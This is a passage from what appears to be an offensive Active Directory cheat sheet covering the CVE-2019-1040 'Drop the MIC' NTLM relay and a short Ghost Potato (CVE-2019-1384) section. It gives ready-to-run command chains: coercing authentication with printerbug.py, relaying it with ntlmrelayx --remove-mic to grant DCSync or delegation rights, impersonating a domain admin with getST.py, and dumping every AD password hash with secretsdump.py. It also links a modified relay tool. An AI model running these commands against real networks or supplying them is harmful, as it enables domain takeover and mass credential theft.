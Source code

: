 #### Drop the MIC

> The CVE-2019-1040 vulnerability makes it possible to modify the NTLM authentication packets without invalidating the authentication, and thus enabling an attacker to remove the flags which would prevent relaying from SMB to LDAP

Check vulnerability with [cve-2019-1040-scanner](https://github.com/fox-it/cve-2019-1040-scanner)

```powershell
python2 scanMIC.py 'DOMAIN/USERNAME:PASSWORD@TARGET'
[*] CVE-2019-1040 scanner by @_dirkjan / Fox-IT - Based on impacket by SecureAuth
[*] Target TARGET is not vulnerable to CVE-2019-1040 (authentication was rejected)
```

- Using any AD account, connect over SMB to a victim Exchange server, and trigger the SpoolService bug. The attacker server will connect back to you over SMB, which can be relayed with a modified version of ntlmrelayx to LDAP. Using the relayed LDAP authentication, grant DCSync privileges to the attacker account. The attacker account can now use DCSync to dump all password hashes in AD
    ```powershell
    TERM1> python printerbug.py testsegment.local/testuser@s2012exc.testsegment.local <attacker ip/hostname>
    TERM2> ntlmrelayx.py --remove-mic --escalate-user ntu -t ldap://s2016dc.testsegment.local -smb2support
    TERM1> secretsdump.py testsegment/ntu@s2016dc.testsegment.local -just-dc
    ```


- Using any AD account, connect over SMB to the victim server, and trigger the SpoolService bug. The attacker server will connect back to you over SMB, which can be relayed with a modified version of ntlmrelayx to LDAP. Using the relayed LDAP authentication, grant Resource Based Constrained Delegation privileges for the victim server to a computer account under the control of the attacker. The attacker can now authenticate as any user on the victim server.
    ```powershell
    # create a new machine account
    TERM1> ntlmrelayx.py -t ldaps://rlt-dc.relaytest.local --remove-mic --delegate-access -smb2support 
    TERM2> python printerbug.py relaytest.local/testuser@second-dc-server 10.0.2.6
    TERM1> getST.py -spn host/second-dc-server.local 'relaytest.local/MACHINE$:PASSWORD' -impersonate DOMAIN_ADMIN_USER_NAME

    # connect using the ticket
    export KRB5CCNAME=DOMAIN_ADMIN_USER_NAME.ccache
    secretsdump.py -k -no-pass second-dc-server.local -just-dc
    ```

#### Ghost Potato - CVE-2019-1384

Requirements:
* User must be a member of the local Administrators group
* User must be a member of the Backup Operators group
* Token must be elevated

Using a modified version of ntlmrelayx : https://shenaniganslabs.io/files/impacket-ghostpotato.zip
